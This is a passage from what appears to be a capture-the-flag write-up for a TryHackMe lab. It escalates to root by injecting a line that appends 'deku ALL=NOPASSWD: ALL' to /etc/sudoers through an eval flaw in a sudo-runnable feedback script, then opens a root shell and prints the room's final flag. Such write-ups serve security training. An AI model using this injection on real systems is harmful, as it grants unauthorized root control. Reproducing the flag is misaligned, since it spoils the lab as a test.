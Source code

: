 -> This file contains an eval function which can be used to escalate privileges
-> Let's add the user 'deku' to the sudoers file using this

```
deku@ip-10-10-119-101:/opt/NewComponent$ sudo ./feedback.sh 
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
deku ALL=NOPASSWD: ALL >> /etc/sudoers
It is This:
Feedback successfully saved.
deku@ip-10-10-119-101:/opt/NewComponent$ sudo -l
Matching Defaults entries for deku on ip-10-10-119-101:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on ip-10-10-119-101:
    (ALL) /opt/NewComponent/feedback.sh
    (root) NOPASSWD: ALL
```

-> Now, we can run '/bin/bash' as sudo and escalate privileges to root

```
deku@ip-10-10-119-101:/opt/NewComponent$ sudo /bin/bash
root@ip-10-10-119-101:/opt/NewComponent# whoami
root
root@ip-10-10-119-101:/opt/NewComponent# cd /root
root@ip-10-10-119-101:~# cat root.txt 
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _ 
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/ 

THM{Y0U_4r3_7h3_NUm83r_1_H3r0}
```

-> Thus, we have found the final flag, root.txt

